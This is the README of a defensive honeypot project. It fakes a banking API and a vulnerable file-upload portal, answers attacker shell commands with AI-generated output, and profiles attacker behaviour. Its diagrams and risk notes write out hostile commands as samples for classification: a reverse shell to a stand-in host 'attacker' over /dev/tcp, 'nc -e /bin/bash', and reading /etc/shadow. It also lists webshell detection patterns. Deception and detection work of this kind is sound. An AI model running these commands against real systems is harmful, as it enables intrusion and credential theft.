






# Maze Myth — Dynamic Banking Honeypot

> **A real-time deception platform that traps attackers in an AI-powered banking maze, analyzes their behavior, and never lets them know they're caught.**

---

## 🔥 The Problem

Traditional honeypots are **easily fingerprinted**:

| Problem | Impact |
|---------|--------|
| Static endpoints | Trivially detected in seconds |
| Predictable responses | Reveals fakeness immediately |
| No file upload / webshell simulation | Misses an entire attack vector |
| Zero attacker behavior profiling | You lose context after they disconnect |
| Not production-ready | Can't safely expose to real traffic |

**Result**: You capture 10 seconds of recon before they disappear.

---

## 🧠 The Solution — Three Deception Layers


```mermaid
graph TB
    subgraph L1["🌐 Layer 1 — Dynamic API Maze"]
        A1["Infinite AI-generated endpoints"]
        A2["Every attacker sees different data"]
        A3["Gemini generates realistic banking JSON"]
    end

    subgraph L2["📤 Layer 2 — CVE-2020-36179 Upload Trap"]
        B1["Fake Spring & PHP upload portals"]
        B2["Accepts real webshell payloads"]
        B3["Gemini generates AI shell + directory responses"]
    end

    subgraph L3["🧠 Layer 3 — Attacker Intelligence"]
        C1["Per-IP behavioral profiling"]
        C2["Attack phase classification"]
        C3["Deception strategy advisor"]
    end

    L1 --> L2
    L2 --> L3
    L3 -.->|"Feeds attacker profile back"| L1
```

---

## 🗺️ How the Attack Flow Works

### Layer 1 — Dynamic API Maze (Always Active)


```mermaid
flowchart TD
    A(["🌐 Attacker hits any URL"]) --> B{Fixed route?}
    B -->|Yes| C["BankingDataGenerator\nreturns fresh randomized JSON\nevery request — never repeats"]
    B -->|No| D["Dynamic catch-all:\nmaze_generator validates path\nassigns access level"]
    D --> E["Gemini LLM generates\nrealistic banking API response\nbased on path context"]
    E --> F{20% chance}
    F -->|Yes| G["FileGenerator creates\nbait file + unique beacon ID\nPDF · XLSX · CSV · XML · JSON · JS · DB"]
    F -->|No| H["Return JSON response\n+ breadcrumb hints to next route"]
    G --> H
    H --> I["Response cached in SQLite\nsame URL → same AI response forever"]
    I --> J{Attacker downloads file?}
    J -->|Yes| K["💥 CRITICAL alert logged\nBase64-encoded to disk + SQLite\nIP + UA + timestamp"]
    K --> L{Attacker opens file?}
    L -->|Yes| M["🔍 Beacon fires\nCallback tracked by honeypot"]
    M --> N(["🔁 Maze continues forever..."])
```

---

### Layer 2 — CVE-2020-36179 File Upload Trap


```mermaid
sequenceDiagram
    actor A as 🎭 Attacker
    participant H as Honeypot (8001)
    participant Intel as AttackerIntel
    participant RAG as Shell RAG Engine
    participant LLM as Gemini AI

    A->>H: GET /clientportal/support/attachments.php
    H->>Intel: record_form_view(ip)
    H-->>A: Realistic PHP form (Apache/2.4.54 + PHP/7.4.33 headers)

    Note over A: Uploads shell.php containing webshell code

    A->>H: POST /clientportal/support/attachments.php
    H->>Intel: record_upload(ip, filename, bytes)
    Note over H: 13-pattern webshell check + 18-tag file analysis<br/>Register in _shell_registry — NO disk write
    H-->>A: ✅ Upload success + /uploads/shell.php URL

    A->>H: GET /uploads/shell.php?cmd=ls -la
    H->>Intel: record_webshell_access(ip, cmd)
    H->>RAG: resolve_shell_command("ls -la")
    RAG->>LLM: Generate realistic Apache2 directory listing
    Note over LLM: Full AI-generated output with realistic<br/>filenames, permissions, timestamps
    LLM-->>H: "drwxr-xr-x 3 www-data www-data..."
    H-->>A: Realistic directory listing

    A->>H: GET /uploads/shell.php?cmd=cat config.php
    H->>RAG: resolve_shell_command("cat config.php")
    RAG->>LLM: Generate realistic PHP banking app source
    LLM-->>H: "<?php $db_host = 'db-primary-1.internal'..."
    H-->>A: Realistic PHP credentials file

    Note over A: Tries reverse shell

    A->>H: GET /uploads/shell.php?cmd=bash -i >& /dev/tcp/attacker/4444
    H->>Intel: record_command → phase=POST_EXPLOIT risk=95
    Note over H: Dynamic handler: random 1.5–3s delay
    H-->>A: "bash: connect: Connection timed out"
```

---

### Layer 3 — Attacker Intelligence Engine


```mermaid
flowchart LR
    subgraph Events["📡 Recorded Events (per IP)"]
        E1["🖥️ Form View\nform visit logged"]
        E2["📁 File Upload\nsafe / dangerous / webshell"]
        E3["⚡ ?cmd= Execution\nrisk scored 0–100"]
        E4["🐚 Webshell Exec\nfull command + AI output"]
    end

    subgraph Session["🧠 AttackerSession Object"]
        direction TB
        S1["📍 IP Geolocation\ncountry · ISP · VPN? · ASN"]
        S2["🔄 Phase Machine\nIDLE→RECON→EXPLOIT→POST_EXPLOIT→LATERAL"]
        S3["📊 Engagement Score\n0–100 (weighted by event type)"]
        S4["🔬 File Analysis\n18 payload patterns · extension risk"]
        S5["💀 Command Timeline\nrisk-sorted · top 15 shown"]
        S6["🎯 Deception Advisor\nhints to keep attacker engaged longer"]
    end

    subgraph Output["📊 Dashboard Output"]
        D1["Global Stats\nuploads · webshells · rev-shells"]
        D2["Top Attackers\nby engagement score"]
        D3["Phase Distribution\nhow far attackers have gotten"]
        D4["Dangerous Commands\ntop 20 by risk score"]
        D5["Per-IP Deep Profile\nfull timeline + deception hints"]
    end

    Events --> Session
    Session --> Output
```

---

### Attack Phase State Machine


```mermaid
stateDiagram-v2
    direction LR
    [*] --> IDLE : IP connects

    IDLE --> RECON : whoami / id / ls / hostname
    RECON --> EXPLOIT : cat /etc/shadow / sudo -l / SUID hunt
    EXPLOIT --> POST_EXPLOIT : bash -i >& /dev/tcp / nc -e / python socket
    POST_EXPLOIT --> LATERAL : ssh user@host / crontab -e / scp

    LATERAL --> [*]

    note right of RECON
        Risk: 15–35
        whoami, id, hostname,
        ps aux, ifconfig, env, history
    end note

    note right of EXPLOIT
        Risk: 45–80
        sudo -l, cat /etc/shadow,
        useradd, curl/wget, chmod 4755
    end note

    note right of POST_EXPLOIT
        Risk: 85–95
        bash -i >& /dev/tcp/...
        nc -e /bin/bash
        python3 socket.connect
    end note
```

---

### Shell RAG — 6-Step Resolution Pipeline


```mermaid
flowchart TD
    CMD(["?cmd=<command>"]) --> S1

    S1{"1️⃣ Gemini LLM\nPrimary engine — always called first\nGenerates dynamic, unique output"}
    S1 -->|Generated| OUT(["Return output to attacker"])
    S1 -->|LLM disabled| S2

    S2{"2️⃣ Exact cache\n58 ground-truth commands"}
    S2 -->|Hit| OUT
    S2 -->|Miss| S3

    S3{"3️⃣ Case-insensitive\nexact match"}
    S3 -->|Hit| OUT
    S3 -->|Miss| S4

    S4{"4️⃣ Dynamic handler\necho · cd · ls paths · cat paths\nrevshell → 1.5–3s delay + random error"}
    S4 -->|Handled| OUT
    S4 -->|Miss| S5

    S5{"5️⃣ TF-IDF fuzzy match\nCowrie 235-session dataset\nthreshold ≥ 0.85"}
    S5 -->|Score ≥ 0.85| OUT
    S5 -->|Score < 0.85| S6

    S6["6️⃣ Fallback\nbash: command: command not found"]
    S6 --> OUT
```

---

### Storage & Log Architecture


```mermaid
flowchart TD
    E(["Any event in honeypot.py\nor file_upload_rce.py"]) --> L[logger.info/warning/critical]

    L --> H1["EncodedFileHandler\nBase64-encodes every log line\n→ log_files/api_audit.log"]
    L --> H2["SQLiteLogHandler\nPlain-text structured entry\n→ databases/honeypot.db → logs table"]
    L --> H3["StreamHandler\nColor-coded console output"]

    subgraph SQLite["🗄️ honeypot.db — WAL Mode — SQLite"]
        T1["endpoints\nAI-generated responses (path+method → JSON)"]
        T2["beacons\nBait file tokens + activation tracking"]
        T3["downloads\nEvery /download/* hit (IP, UA, timestamp)"]
        T4["objects\nFake objects reused across sessions"]
        T5["logs\nFull structured audit log — queryable"]
    end

    H2 --> SQLite
```

---

## ✅ Feature Status

| # | Feature | Status |
|---|---------|--------|
| 1 | Docker + Gunicorn production deployment | ✅ Done |
| 2 | Multi-stage Dockerfile (non-root user, health checks) | ✅ Done |
| 3 | SQLite state (WAL mode, 5 tables, 90-day retention) | ✅ Done |
| 4 | Base64-encoded audit log (`log_files/api_audit.log`) | ✅ Done |
| 5 | Dual-write: Base64 file log + queryable SQLite `logs` table | ✅ Done |
| 6 | Gemini AI — banking API response generation | ✅ Done |
| 7 | Gemini AI — shell command + directory output generation | ✅ Done |
| 8 | Gemini AI — PHP banking source code generation (on `cat`) | ✅ Done |
| 9 | Gemini AI — bait file content generation | ✅ Done |
| 10 | Dynamic banking data (randomized per request, never repeats) | ✅ Done |
| 11 | Multi-format tracked bait files + beacons (10+ formats) | ✅ Done |
| 12 | CVE-2020-36179 File Upload RCE deception | ✅ Done |
| 13 | Hybrid Shell RAG Engine (Gemini-first + Cowrie fallback) | ✅ Done |
| 14 | Attacker Intelligence & Behavior Profiling | ✅ Done |
| 15 | IP Geolocation (ip-api.com, no key needed) | ✅ Done |
| 16 | Deception Strategy Advisor | ✅ Done |
| 17 | SQLite database encryption at rest | 🔜 Planned |
| 18 | LLM Offline Fallback (Ollama) | 🔜 Planned |
| 19 | Webhook + SIEM Alerts | 🔜 Planned |
| 20 | Tarpit Mode | 🔜 Planned |

---

## 🚀 Key Features

### 1. Dynamic API Maze — Infinite Endpoints
Every attacker sees **different data on every request**. No fingerprinting possible:
- **Companies**: 8–20 per call · **Accounts**: 15–40 · **Transactions**: 20–100 · **Payments**: 10–35
- **Gemini LLM** generates realistic JSON for any unknown path (context-aware, path-matched)
- **Consistency**: same URL → same AI response forever (cached in SQLite)
- **Breadcrumbs**: each response hints at the next route, keeping attackers exploring deeper

### 2. CVE-2020-36179 — File Upload RCE Trap
Simulates a vulnerable banking document upload portal:
- **Two realistic endpoints**: Spring Java compliance portal + PHP client support portal
- **Deceptive headers**: `Apache-Coyote/1.1` / `Apache/2.4.54 (Debian)` with matching `X-Powered-By`
- **13-pattern webshell detection**: PHP system/eval/passthru/base64_decode/`$_GET`/etc.
- **In-memory shell registry**: uploaded filenames tracked in `_shell_registry` — **no files ever written to disk**
- **18-pattern file analysis**: threat level (LOW/MEDIUM/HIGH/CRITICAL), extension risk, payload tags

### 3. Gemini-Powered Shell — AI Directory & File Generation
The webshell is fully AI-driven, not just templated:
- **`ls` commands**: Gemini generates realistic directory listings with current timestamps, random inodes, correct www-data permissions
- **`cat <file>`** on PHP files: Gemini generates realistic PHP banking app source code with real DB credentials embedded (e.g., `$db_host = 'db-primary-1.internal'`)
- **`cat` on config files**: Gemini generates plausible Apache/PHP config, `.env` contents, credential files
- **Novel commands**: Gemini handles any unknown command with context-aware realistic output
- **Reverse shell attempts**: Dynamic handler adds 1.5–3s random delay then returns varied connection-refused/timeout messages

### 4. Gemini AI — Ground-Truth Bootstrapping
On startup, Gemini pre-generates all 58+ ground-truth command responses:
```
Prompt: "You are a compromised Ubuntu 22.04 Apache2+PHP server.
Generate exact terminal output for [58 commands]..."
```
This produces server-specific, contextually correct responses for identity commands (`whoami`, `id`, `hostname`, `ifconfig`, `env`) before any attacker connects.

### 5. Dual-Layer Persistence — SQLite + Encoded Logs
The database and audit system are production-grade:
- **Migrated from TinyDB → SQLite** for reliability, concurrency, and queryability
- **WAL mode** (`PRAGMA journal_mode=WAL`) — safe under Gunicorn's multi-threaded workers
- **5 indexed tables**: `endpoints`, `beacons`, `downloads`, `objects`, `logs`
- **Audit logs Base64-encoded** to `log_files/api_audit.log` — resists casual tampering
- **Dual-write**: every event also written as plain-text to SQLite `logs` table for dashboard queries
- **90-day auto-retention**: records older than 90 days purged automatically on startup

### 6. Production Deployment — Docker + Gunicorn
Ready for real internet-facing deployments:
- **Multi-stage Dockerfile**: `builder` stage compiles C extensions, `base` stage is minimal runtime
- **Non-root user**: all processes run as `honeypot` (uid=1001) — never root
- **Gunicorn WSGI server**: 4 workers × 2 threads = 8 concurrent request capacity; 120s timeout for LLM calls
- **Health checks**: `curl -sf http://localhost:8001/` — Docker auto-restarts on failure
- **Named volumes**: `honeypot-logs`, `honeypot-db`, `honeypot-files` persist across container restarts
- **Dashboard isolation**: `dashboard` container mounts volumes as `:ro` (read-only)

### 7. Attacker Intelligence Dashboard
Full behavioral profiling of every attacker IP:

```
GET /api/dashboard/cve/file-upload             → Global intelligence summary
GET /api/dashboard/cve/file-upload/attackers   → All attacker profiles (sorted by engagement)
GET /api/dashboard/cve/file-upload/attacker/<ip> → Per-IP deep profile with timeline
```

### 8. Multi-Format Bait Files with Beacons
Every downloaded file has a **unique beacon ID** embedded. 10+ formats:

| Format | Extension | Beacon method |
|--------|-----------|---------------|
| PDF | `.pdf` | URL in footer |
| Excel | `.xlsx` | Hyperlink in cell |
| CSV | `.csv` | URL column |
| XML | `.xml` | `<beacon>` tag |
| JSON | `.json` | `_beacon_url` field |
| JavaScript | `.js` | `fetch()` call |
| SQLite | `.db` / `.sqlite` | Row in `_tracking` table |
| Text | `.txt` | URL at bottom |
| SQL | `.sql` | Comment with URL |

---

## 📁 Architecture

```
Maze-Myth-Dynamic-Honeypot/
│
├── honeypot.py               ← Main Flask app (all routes, ~1050 lines)
│                               Base64 log handler + SQLite log handler
│                               Gunicorn-compatible WSGI entry point
├── run_honeypot.bat          ← Windows: double-click to start
│
├── docker/
│   ├── Dockerfile            ← Multi-stage build (non-root, health checks)
│   └── docker-compose.yaml   ← Production: Gunicorn, volumes, network isolation
│
├── src/
│   ├── file_upload_rce.py    ← CVE-2020-36179 deception module ⭐
│   ├── attacker_intel.py     ← Behavior analysis & profiling engine ⭐
│   ├── api_generator/        ← Maze routing & access control
│   ├── data_generator/       ← Dynamic fake banking data (Faker + random)
│   ├── file_generator/       ← Tracked bait files (PDF, XLSX, CSV…)
│   ├── llm/                  ← Gemini API integration (banking + file content)
│   ├── rag/
│   │   ├── rag_loader.py     ← Banking domain RAG context
│   │   ├── shell_rag_loader.py ← 6-step shell engine (Gemini-first) ⭐
│   │   └── shell_rag.pkl     ← Cowrie-trained fallback model
│   └── state/                ← SQLite persistence (WAL mode)
│       └── state_manager.py  ← 5 tables + log_entry + log_download
│
├── dashboard/                ← Operator monitoring UI
│   ├── index.html            ← Dashboard UI (port 8002)
│   └── monitor.py            ← Dashboard Flask → Gunicorn backend
│
└── Dataset/                  ← shell_rag.pkl + ai_cmd_cache.json
```

---

## 🚀 Quick Start

### Option A — Docker (Production, Recommended)

```bash
git clone https://github.com/Mark-Meka/Maze-Myth-Dynamic-Honeypot.git
cd Maze-Myth-Dynamic-Honeypot
cp .env.template .env
# Edit .env: GEMINI_API_KEY=your_key_here
docker compose -f docker/docker-compose.yaml up -d
```

Services start with Gunicorn, health checks, named volumes, and automatic restart.

### Option B — Windows (One Click)

```
Double-click run_honeypot.bat
```

### Option C — Manual Setup

```bash
# 1. Install dependencies
pip install -r requirements.txt

# 2. Configure Gemini API
cp .env.template .env
# Edit .env → GEMINI_API_KEY="AIzaSy...your-key..."

# 3. Run both services
python honeypot.py            # Terminal 1 — Honeypot  (port 8001)
python dashboard/monitor.py  # Terminal 2 — Dashboard (port 8002)
```

| Service | URL | Audience |
|---------|-----|----------|
| 🎯 Honeypot | `http://localhost:8001` | **Attackers** — expose this |
| 📊 Dashboard | `http://localhost:8002` | **Operators only** |
| 🔍 Intel API | `http://localhost:8001/api/dashboard/cve/file-upload` | **Operators only** |

---

## 🔐 Environment Variables

```ini
# .env  (copy from .env.template)
GEMINI_API_KEY=AIzaSy...your-key-here...
HONEYPOT_URL=http://localhost:8001
LLM_MODEL=gemini-2.5-flash
```

---

## 🔒 Security Warning

> ⚠️ **This is a deception tool. Run in an isolated environment (VM / container / VLAN).**
>
> - **Never expose port 8002** — dashboard is for operators only; use SSH tunneling for remote access.
> - The Docker deployment uses network isolation (`maze-net` bridge network).
> - Review `DEPLOYMENT.md` before any production deployment.

---

## 📜 License

MIT License — See [LICENSE](LICENSE)

## 📞 Contact

**Author**: Mark Meka | **GitHub**: [@Mark-Meka](https://github.com/Mark-Meka)
